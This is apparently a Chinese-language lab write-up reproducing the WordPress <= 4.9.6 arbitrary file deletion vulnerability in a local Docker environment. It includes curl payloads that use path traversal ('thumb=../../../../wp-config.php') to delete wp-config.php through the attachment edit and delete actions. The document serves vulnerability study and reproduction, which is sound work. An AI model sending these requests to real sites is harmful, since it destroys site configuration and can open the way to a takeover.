






## Wordpress <= 4.9.6 任意文件删除漏洞

### 参考链接

[WARNING: WordPress File Delete to Code Execution](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/  "https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/")

昨日RIPS团队公开了一个Wordpress的[任意文件删除漏洞](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/)（需要登录），目前该漏洞仍然未修复（2018年06月27日），该漏洞影响 Wordpress 最新版 4.9.6. 

### 环境部署

```dockerfile
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。 

部署完成后直接访问`http://ip:8888`即可访问网站。

### 漏洞利用

1. 访问网站。



2. 访问url：`http://your-ip:8888/wp-admin/media-new.php`上传任意图片



3. 点击`Edit`进入到图片修改页面，在网页源代码中找到 `_wpnonce`. 

   

   

#### 发送payload

```
curl -v 'http://your-ip:8888/wp-admin/post.php?post=6' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'
```

**注：**这里的post是自己的图片id，cookie为登录用户的cookie。



4. 删除文件

   在网页源码中找到另外一个 `_wpnonce` 

    

   发送Payload: 

   ```shell
   curl -v 'http://your-ip:8888/wp-admin/post.php?post=6' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'
   ```

5. 刷新网页：发现wp-config.php文件被删除，网站需要重新安装

   

   
